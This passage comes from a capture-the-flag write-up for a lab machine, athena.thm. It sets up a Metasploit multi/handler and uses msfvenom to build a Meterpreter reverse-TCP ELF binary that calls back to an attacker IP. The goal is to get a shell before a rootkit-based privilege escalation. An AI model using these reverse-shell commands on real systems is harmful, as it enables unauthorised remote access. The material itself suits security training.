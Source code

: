 To use this module, we should first have a meterpreter shell that we can run in the background and provide the meterpreter shell session ID to the Diamorphine module in order to run it and eventually escalate privileges.
In order to get a meterpreter shell on the `athena.thm`, follow the below steps: <br/>

**1-** Start the Metasploit Framework Console, on your attacking machine:

```bash
msfconsole -q
```

**2-** Use and configure the multi handler module:

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > options
.... Displays required options ....
msf6 exploit(multi/handler) > set LHOST tun0
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
```

**3-** Run the multi handler to begin listening on port **4444** (*default port*)

```bash
msf6 exploit(multi/handler) > run
```

### **<strong><font color="DarkKhaki">Generating the ELF binary</font></strong>**

Now, we can proceed to create an ELF binary using **msfvenom**. This binary, when executed on the target machine, will establish a connection back to the multi-handler, which will provide us with a Meterpreter shell, running as `athena`. <br/>
To do so, let's run the following command on the attacking machine:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.8.16.233 LPORT=4444 --platform linux -a x64 -f elf -o reverse
```

* This command will generate an ELF binary named `reverse`.

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-athena/2023-09-17 19_19_12-KaliLinux - VMware Workstation 17 Player (Non-commercial use only) 1.png" alt="">
<center><i>Generating the ELF binary 'reverse'</i></center>
<br/>
